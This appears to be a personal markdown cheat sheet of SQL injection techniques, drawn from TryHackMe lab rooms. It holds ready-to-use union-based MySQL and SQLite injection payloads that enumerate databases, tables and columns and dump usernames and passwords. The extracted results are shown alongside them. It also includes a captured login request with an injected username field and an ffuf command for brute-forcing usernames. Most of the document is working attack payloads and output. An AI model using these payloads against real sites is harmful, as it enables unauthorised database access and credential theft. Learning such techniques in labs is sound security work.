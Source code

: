 
### UNION BASED SQLI
info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection



### Username Brutforce with FFUF

simple request
![Alt text](image.png)

save  req to req.txt
```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command
```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```
![[Pasted image 20230903233728.png]]
NOTE:- we might need to pass -u with url to use http or https


python script :-
https://github.com/BhattJayD/LessonLearned-BruteForce-Script
Tested on https://tryhackme.com/room/lessonlearned

### SQLITE Sql injection

Useful link to follow:-
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://tryhackme.com/room/unstabletwin#

##### 1st step SIMPLE ENUM

```sqlite
username=admin&password=aa'union select 1,sqlite_version() -- -
```

```json
[
  [
    1, 
    "3.26.0"
  ]
]

```

##### 2nd step  TABLE NAME EXTRACTION

```
username=admin&password=aa'union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -
```

```json
[
  [
    1, 
    "users,notes"
  ]
]

```

##### 3rd step COLUMN NAME EXTRACTION

```sqlite
username=admin&password=aa'union select 1,sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='notes' limit 3 -- -
```

```sql
[
	[
		1,
		"CREATE TABLE notes ( id INTEGER UNIQUE, user_id INTEGER, note_sql INTEGER, notes TEXT,PRIMARY KEY( id ))"
	]
]
```


##### 4rd step DATA EXTRACTION FROM COLUMN

```sqlite
username=admin&password=aa'union select 1,username from users limit 10 -- -
```

```json
[
  [
    1, 
    "julias"
  ], 
  [
    1, 
    "linda"
  ], 
  [
    1, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    1, 
    "vincent"
  ]
]
```

```sqlite
username=admin&password=aa'union select (group_concat(password)),(group_concat(username)) from users limit 1 -- -
```

```json
[
  [
    "continue...,Red,Orange,Green,Yellow ", 
    "mary_ann,julias,vincent,linda,marnie"
  ]
]
```


### Use full sql commands

##### Print in JSON

```sql
select * from table \G;
```